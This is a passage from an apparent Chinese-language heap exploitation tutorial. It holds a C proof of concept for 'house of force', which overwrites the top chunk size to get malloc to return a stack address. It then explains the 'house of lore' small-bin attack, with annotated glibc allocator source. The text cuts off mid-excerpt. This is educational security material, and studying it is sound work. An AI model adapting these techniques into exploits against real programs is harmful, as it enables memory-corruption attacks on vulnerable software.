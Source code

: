     #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);
        long fake_chunk[0x110]; // 最终要是申请到了这里，那就说明攻击成功
        printf("the addr of fake_chunk is %p.\n", fake_chunk);

        long *a = malloc(0x100);                     // 如此一来，chunk a的下一个chunk将会是top chunk
        long *top_chunk = (long *)((long)a + 0x100); // top_chunk在a偏移0x100的地方
        top_chunk[1] = -1; // 将top chunk的大小修改为无限大

        long diff = (long)&fake_chunk[0] - (long)top_chunk; // 计算fake_chunk和top chunk此时相差的距离
        malloc(diff - 0x10);                                // malloc这个距离大小-0x10的chunk就是申请一个大小等于这个距离的，使得top chunk减小这个距离

        long *b = malloc(0x100);                                // 随便申请一个chunk
        printf("the addr of new malloc chunk is %p.\n", b - 2); // 发现申请到的chunk的地址就是fake

        return 0;
    }

## house of lore

`house of lore`是针对`small bin`的一种攻击方法，和`unsorted bin attack`与`large bin  attack`很类似。个人感觉称之为`small bin attack`也没啥问题。

一句话描述该攻击方式：正常情况下，`small bin`取出一个`chunk`的时候会从末尾取出，这个`victim`的`bk`指针指向的是倒数第二个`chunk`，称为`bck`。此时检查`bck`的`fd`指针是否指向`victim`，通过检查后将`victim`取出，并将`bck`的`fd`指针指向`small bin`。若我们控制`victim`的`bk`指针，使其指向一个我们控制的`fake_chunk`，那么只需要控制该`fake_chunk`的`fd`指针指向了`victim`，这样以来便可以在取出`victim`的时候，将`fake_chunk`挂入`small bin`中。注意，取出`fake_chunk`的时候又需要经过`small bin`的检查，因此再此构造一个`fake_chunk2`，将`fake_chunk2`的`fd`指针指向`fake_chunk`，`fake_chunk`的`bk`指向`fake_chunk2`即可。

`small bin`取出的过程如下：

    if (in_smallbin_range(nb)) // 请求的大小位于smallbin
        {
            idx = smallbin_index(nb); // 请求的大小属于哪一个smallbin，找到下标idx
            bin = bin_at(av, idx);    // 通过下标找到具体的这个bin

            if ((victim = last(bin)) != bin) // last宏就是#define last(b) (b->bk)，因此就是定位到smallbin的最后一个chunk，而且smallbin不为空（bin->bk!=bin）
            {
                if (victim == 0) /* initialization check */
                                 // 假如smallbin为空，那么这里不会进行分配，要到后面unsortedbin。合并所有的fastbin chunk，合并到unsorted bin里面去
                    malloc_consolidate(av);
                else // 定位到了这个smallbin，取出里面的一个chunk，从队尾开始取
                {
                    bck = victim->bk;                        // bck是victim的bk，也就是倒数第二个
                    if (__glibc_unlikely(bck->fd != victim)) // bck的fd假如不为victim说明出错
                    {
                        errstr = "malloc(): smallbin double linked list corrupted";
                        goto errout;
                    }
                    set_inuse_bit_at_offset(victim, nb); // 取出这个victim。也就是队尾的这一个。
                    bin->bk = bck;                       // 取出后，bin的bk将会变成倒数第二个chunk
                    bck->fd = bin;                       // 取出后，倒数第二个chunk将会指向small bin
